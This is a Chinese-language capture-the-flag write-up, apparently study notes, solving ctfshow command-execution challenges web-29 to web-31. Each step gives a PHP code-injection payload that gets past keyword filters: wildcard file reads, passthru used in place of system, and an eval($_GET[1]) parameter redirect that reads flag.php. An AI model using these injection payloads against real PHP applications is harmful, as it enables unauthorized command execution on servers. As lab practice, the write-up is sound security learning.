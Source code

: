 ```yaml
---
title: ctfshow 命令执行
date: 2024-10-08 20:11:50
tags: 
      - rce
      - ctfshow
categories: 学习笔记
---
```


### web-命令执行

### web-29

观察代码，发现过滤了flag，我们使用模糊匹配

?c=system("cat fla*");

就能得到flag了。

![image-20240424162512458](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241625523.png)

------

### web-30

观察代码可知，该题过滤了flag，system和php

我们可以使用passthru代替system

?c=passthru("cat fla*");就能得到flag了

![image-20240424162720192](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241627224.png)

------

### web-31

观察代码，发现过滤了flag，system，php，cat，sort，shell，\.,空格，単引号，因此，我们可以进行重造

变量

?c=eval($_GET[1]);&1=system('nl flag.php');

![image-20240424164628726](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241646814.png)

页面回显1，说明重造成功，查看源码，发现flag

![image-20240424164717613](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241647646.png)

------

### web-32

